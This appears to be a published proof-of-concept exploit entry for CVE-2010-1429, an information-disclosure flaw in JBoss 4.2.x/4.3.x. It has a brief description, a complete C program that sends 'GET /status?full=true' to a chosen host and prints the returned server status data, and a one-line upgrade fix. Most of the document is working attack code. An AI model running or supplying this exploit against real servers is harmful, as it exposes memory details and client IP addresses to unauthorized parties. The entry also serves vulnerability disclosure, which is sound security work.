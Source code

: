 #JBoss sensitive information disclosure 4.2X & 4.3.X CVE-2010-1429
# Date: 02/08/2018
# POC Author: JameelNabbo
# Vendor Homepage: http://www.jboss.org
# Software Link: http://jbossas.jboss.org/downloads
# Version: 4.2X. & 4.3.X
# Tested on: Linux Ubuntu
# CVE : CVE-2010-1429

1. Description
   
By requesting the Status param and setting its value to true, Jobss will print a sensitive information such as Memory used/Total Memory / Client IP address.
Example:   http://127.0.01/status?full=true
 
   
2. Proof of Concept
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <netinet/tcp.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <netdb.h>


int socket_connect(char *host, in_port_t port){
    struct hostent *hp;
    struct sockaddr_in addr;
    int on = 1, sock;
    
    if((hp = gethostbyname(host)) == NULL){
        herror("gethostbyname");
        exit(1);
    }
    bcopy(hp->h_addr, &addr.sin_addr, hp->h_length);
    addr.sin_port = htons(port);
    addr.sin_family = AF_INET;
    sock = socket(PF_INET, SOCK_STREAM, IPPROTO_TCP);
    setsockopt(sock, IPPROTO_TCP, TCP_NODELAY, (const char *)&on, sizeof(int));
    
    if(sock == -1){
        perror("setsockopt");
        exit(1);
    }
    
    if(connect(sock, (struct sockaddr *)&addr, sizeof(struct sockaddr_in)) == -1){
        perror("connect");
        exit(1);
        
    }
    return sock;
}

#define BUFFER_SIZE 1024

int main(int argc, char *argv[]){
    int fd;
    char buffer[BUFFER_SIZE];
    
    if(argc < 3){
        fprintf(stderr, "Usage: %s <hostname> <port>\n", argv[0]);
        exit(1);
    }
    
    fd = socket_connect(argv[1], atoi(argv[2]));
    write(fd, "GET /status?full=true\r\n", strlen("GET /status?full=true\r\n")); // write(fd, char[]*, len);
    while(read(fd, buffer, BUFFER_SIZE - 1) != 0){
         fprintf(stderr, "%s", buffer);
    }

    shutdown(fd, SHUT_RDWR);
    close(fd);
    return 0;
}

3. Solution :
Update to version 4.2.3 or later
